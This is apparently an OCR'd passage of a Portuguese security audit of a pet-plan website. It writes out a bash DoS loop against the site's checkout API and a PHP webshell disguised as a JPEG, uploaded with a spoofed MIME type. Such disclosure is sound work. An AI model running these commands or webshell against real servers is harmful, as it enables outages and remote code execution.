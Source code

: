 4. **Ataque DoS (Negação de Serviço):**
   ```bash
   # Script para derrubar o servidor
   for i in {1..1000}; do
     curl -X POST https://unipetplan.com.br/api/checkout/process \
       -H "Content-Type: application/json" \
       -d '{"customer":null,"payment":null}' &
   done
   
   # Sistema fica sobrecarregado com erros e para de responder
   ```

**Impacto Operacional:**
- 💥 Sistema indisponível para clientes legítimos
- 💥 Perda de vendas durante downtime
- 💥 Dados corrompidos no banco
- 💥 Custos de recuperação e investigação

---

### 📤 ATAQUE 4: Upload de Malware Disfarçado

**Vetor de Ataque:** Bypass de validação de tipo de arquivo  
**Arquivo:** `server/routes.ts` (linhas 87-109)  
**Severidade:** ALTA 🟠

#### Como o Hacker Exploraria:

**Problema:** Sistema valida apenas MIME type e extensão (facilmente falsificados)

**Passo a Passo do Ataque:**

1. **Criar Arquivo Malicioso:**
   ```bash
   # Criar webshell PHP disfarçado de imagem
   cat > malicious.jpg << 'EOF'
   <?php
   if(isset($_GET['cmd'])) {
     system($_GET['cmd']);
   }
   ?>
   EOF
   
   # Adicionar header JPEG fake
   printf '\xFF\xD8\xFF\xE0' | cat - malicious.jpg > webshell.jpg
   ```

2. **Falsificar MIME Type:**
   ```bash
   curl -X POST https://unipetplan.com.br/admin/api/pets/upload-image \
     -H "Content-Type: multipart/form-data" \
     -F "image=@webshell.jpg;type=image/jpeg"
   
   # Sistema aceita porque:
   # - MIME type = image/jpeg ✓
   # - Extensão = .jpg ✓
   # - Conteúdo NÃO é validado ✗
   ```
